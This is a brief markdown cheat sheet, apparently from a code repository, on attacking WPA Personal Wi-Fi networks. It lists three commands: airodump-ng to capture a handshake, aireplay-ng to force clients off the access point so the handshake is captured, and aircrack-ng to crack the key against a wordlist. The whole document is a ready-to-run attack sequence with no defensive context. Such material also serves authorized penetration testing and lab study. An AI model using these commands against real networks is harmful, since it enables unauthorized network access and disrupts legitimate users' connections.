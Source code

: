 ### WPA Personal
---
##### Capturing Handshakes:
```sh
sudo airodump-ng --channel <channel number> -w <output filename> --essid <ESSID> --bssid <BSSID> wlan0mon
```
- Keep this running in the background.

##### De-authenticate the client from the AP:
```sh
sudo aireplay-ng -0 4 -a <AP bssid> -c <Target Client bssid> wlan0mon
```

##### Cracking WPA Key:
``` sh
aircrack-ng <.cap file> -w /usr/share/john/password.lst
```

